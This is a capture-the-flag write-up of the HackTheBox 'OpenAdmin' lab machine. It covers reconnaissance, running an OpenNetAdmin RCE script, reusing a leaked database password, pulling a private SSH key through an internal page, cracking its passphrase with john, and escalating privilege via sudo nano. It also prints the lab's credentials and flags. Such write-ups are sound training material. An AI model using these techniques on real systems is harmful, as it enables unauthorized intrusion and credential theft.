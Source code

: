 # OpenAdmin

Author: Ewaël

**OpenAdmin** is an easy HackTheBox box by dmw0ng.

`nmap -sC -sV 10.10.10.171 -v -A` shows ports 80 and 22 are open. Let's check the website first. It's only the Apache default page, so I use `dirb http://10.10.10.171` to find the entry point, which shows that `/music` exists.

![music](music.png)

I decide to login and successfully log as a guest on an *OpenNetAdmin* page.

![ona](ona.png)

After checking for possible exploits of this version, I find a RCE exploit. I download the script `exploit.sh` and use it with

```
./exploit.sh http://10.10.10.171/ona/
```

It gives me a shell as `www-data` but I can't move from `/opt/ona/www`. First of all `ls -all /home` shows me that two users exist: `jimmy` and `joanna`.

After searching in every directory in the working directory, I finally find something in `local/config/database_settings.inc.php`:

```php
<?php

$ona_contexts=array (
  'DEFAULT' =>
  array (
    'databases' =>
    array (
      0 =>
      array (
        'db_type' => 'mysqli',
        'db_host' => 'localhost',
        'db_login' => 'ona_sys',
        'db_passwd' => 'n1nj4W4rri0R!',
        'db_database' => 'ona_default',
        'db_debug' => false,
      ),
    ),
    'description' => 'Default data context',
    'context_color' => '#D3DBFF',
  ),
);
```

I decide to use that password to log as `jimmy` with ssh, and it works but `jimmy` does not have the user flag. After moving around I go back to `/var/www` and I see I can access a new directory:

```
$ ls -all /var/www:
total 16
drwxr-xr-x  4 root     root     4096 Nov 22 18:15 .
drwxr-xr-x 14 root     root     4096 Nov 21 14:08 ..
drwxr-xr-x  6 www-data www-data 4096 Nov 22 15:59 html
drwxrwx---  2 jimmy    internal 4096 Nov 23 17:43 internal
lrwxrwxrwx  1 www-data www-data   12 Nov 21 16:07 ona -> /opt/ona/www
```

`internal` contains an interesting `main.php`:

```php
<?php session_start(); if (!isset ($_SESSION['username'])) { header("Location: /index.php"); };
# Open Admin Trusted
# OpenAdmin
$output = shell_exec('cat /home/joanna/.ssh/id_rsa');
echo "<pre>$output</pre>";
?>
<html>
<h3>Don't forget your "ninja" password</h3>
Click here to logout <a href="logout.php" tite = "Logout">Session
</html>
```

I must connect to `/internal` and request `main.php` so it prints me `joanna` private RSA key, but it does not work on port 80. To find other ports with listening sockets I use `netstat -tulpn` and try every port, and it finally works with

```
curl http://127.0.0.1:52846/main.php
```

Now that I have `joanna`'s private key, I must have her passphrase. I crack it with john and the usual wordlist after transforming the key into a format john can work with:

```
$ python /usr/share/john/ssh2john.py joanna_rsa > joanna_rsa_hash
$ john --wordlist=/usr/share/wordlists/rockyou.txt joanna_rsa_hash
```

It gives me the passphrase `bloodninjas`. I can now log as `joanna`:

```
ssh joanna@10.10.10.171 -i joanna_rsa
```

I get the user flag:

```
c9b2cf07d40807e62af62660f0c81b5f
```

The first thing I do is `sudo -l` which shows I can run `/bin/nano` on `/opt/priv` as root. So I just have to `sudo nano /opt/priv`, CTRL-R to open a file and open `/root/root.txt`:

`2f907ed450b361b2c2bf4e8795d5b561`
